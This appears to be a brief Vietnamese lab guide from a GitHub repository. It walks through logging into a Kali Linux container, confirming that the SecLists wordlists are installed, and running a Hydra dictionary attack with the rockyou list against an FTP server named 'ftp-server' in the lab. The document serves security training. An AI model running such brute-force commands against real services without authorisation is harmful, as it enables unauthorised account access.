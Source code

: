 # Hướng dẫn thực hiện bài lab.
1. Sử dụng câu lệnh để login vào container Kali.
- Ở bước này các bạn sử dụng câu lệnh dưới đây để login vào bên trong container:
```
 docker exec -it ff350fae646e /bin/bash
```
![image](https://github.com/user-attachments/assets/2ca00f6a-6e16-4294-802b-2943a7c8ab43)
2. Kiểm tra từ điển dò mật khẩu: 
- Bước này các bạn kiểm tra từ điển mà các bạn cài đặt chưa?
- Nếu chưa các bạn xem chi tiết tại đây hướng dẫn cách cài đặt: https://github.com/danielmiessler/SecLists
- Sau khi cài đặt ở nội dung trên. Thực hiện câu lệnh này đảm bảo rằng câu lệnh đã được cài đặt:
```
seclists
```
![image](https://github.com/user-attachments/assets/f8be5ce0-722a-4379-8904-059502bed809)


3. Thực hành bài lab

```hydra -l testuser -P /usr/share/wordlists/rockyou.txt ftp://ftp-server```

![image](https://github.com/user-attachments/assets/2477b605-af54-4706-b3fa-e0f50e12413b)
